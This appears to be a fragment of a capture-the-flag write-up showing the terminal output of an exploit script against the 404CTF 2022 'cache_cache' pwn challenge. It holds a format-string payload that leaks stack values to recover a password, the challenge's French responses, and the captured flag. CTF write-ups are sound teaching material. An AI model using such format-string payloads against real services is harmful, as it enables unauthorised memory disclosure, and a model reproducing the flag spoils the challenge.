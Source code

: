 ```bash
$ python3 cache.py REMOTE
[*] '/home/maskott/github/ctf_404_2022/pwn/cache_cache/cache_cache'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.404ctf.fr on port 31946: Done
b'Veuillez d\xc3\xa9cliner votre identit\xc3\xa9:\n'
b'AAAAAAAA%16$p%17$p%18$p'
[b'334d6e3f70663676', b'335e703e35335739', b'33632931\r']
v6fp?nM39W35>p^31)c3
20

Vérification du mot de passe en cours ...
Bonjour Monsieur Dupont.
Comme toujours, nous sommes heureux de faire affaire avec vous.
Vous avez plusieurs paiements en attente à récupérer. Veuillez nous transmettre votre adresse ethereum de la manière prévue auparavant.

404CTF{13_10UP_D3V0r3_14_H411384rD3}
```
